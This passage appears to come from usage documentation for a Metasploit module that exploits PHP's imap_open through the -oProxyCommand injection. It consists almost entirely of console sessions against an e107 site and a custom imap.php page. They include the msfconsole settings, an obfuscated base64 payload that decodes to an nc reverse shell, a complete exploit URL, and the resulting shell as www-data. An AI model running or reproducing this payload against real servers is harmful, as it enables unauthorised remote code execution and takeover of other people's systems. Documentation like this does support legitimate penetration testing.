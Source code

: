   ```
  resource (e107.rb)> exploit
  [*] Started reverse TCP handler on 2.2.2.2:4444 
  [*] Logging in as admin:admin
  [+] Login Success
  [*] Checking if Cron is enabled for triggering
  [+] Storing payload in mail settings
  [*] Loading cron page to execute job manually
  [+] Triggering manual run of mail bounce check cron to execute payload with cron id 3 and etoken 3b6aa8ca02dbd2bf8218874606c5e2f1
  [*] IMAP server config left on server, manual removal required.
  [*] Command shell session 1 opened (2.2.2.2:4444 -> 1.1.1.1:50742) at 2018-11-23 20:01:13 -0500
  
  uname -a
  Linux ubuntu1604 4.4.0-134-generic #160-Ubuntu SMP Wed Aug 15 14:58:00 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
  id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```

### Custom Page on Ubuntu 16.04

Using the `imap.php` page listed above.

  ```
  msf5 > use exploit/linux/http/php_imap_open_rce 
  msf5 exploit(linux/http/php_imap_open_rce) > set target 3
  target => 3
  msf5 exploit(linux/http/php_imap_open_rce) > set lhost 1.1.1.1
  lhost => 1.1.1.1
  msf5 exploit(linux/http/php_imap_open_rce) > set rhost 2.2.2.2
  rhost => 2.2.2.2
  msf5 exploit(linux/http/php_imap_open_rce) > exploit
  
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  [*] Listener started for 300 seconds
  [+] POST request connection string: x -oProxyCommand=`echo$IFS$()bWtmaWZvIC90bXAvaWVib3U7IG5jIDE5Mi4xNjguMi4xMTcgNDQ0NCAwPC90bXAvaWVib3UgfCAvYmluL3NoID4vdG1wL2llYm91IDI+JjE7IHJtIC90bXAvaWVib3U=|base64$IFS$()-d|bash`}
  [+] GET request connection string: x%20-oProxyCommand=%60echo$IFS$()bWtmaWZvIC90bXAvaWVib3U7IG5jIDE5Mi4xNjguMi4xMTcgNDQ0NCAwPC90bXAvaWVib3UgfCAvYmluL3NoID4vdG1wL2llYm91IDI%2BJjE7IHJtIC90bXAvaWVib3U=%7Cbase64$IFS$()-d%7Cbash%60%7D
  [*] Command shell session 1 opened (1.1.1.1:4444 -> 2.2.2.2:41124) at 2018-11-25 10:52:55 -0500
  
  uname -a
  Linux ubuntu1604 4.4.0-134-generic #160-Ubuntu SMP Wed Aug 15 14:58:00 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
  id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```

The GET request was utilized, and the final URL utilized was: `http://2.2.2.2/imap.php?server=x%20-oProxyCommand=%60echo$IFS$()bWtmaWZvIC90bXAvaWVib3U7IG5jIDE5Mi4xNjguMi4xMTcgNDQ0NCAwPC90bXAvaWVib3UgfCAvYmluL3NoID4vdG1wL2llYm91IDI%2BJjE7IHJtIC90bXAvaWVib3U=%7Cbase64$IFS$()-d%7Cbash%60%7D`
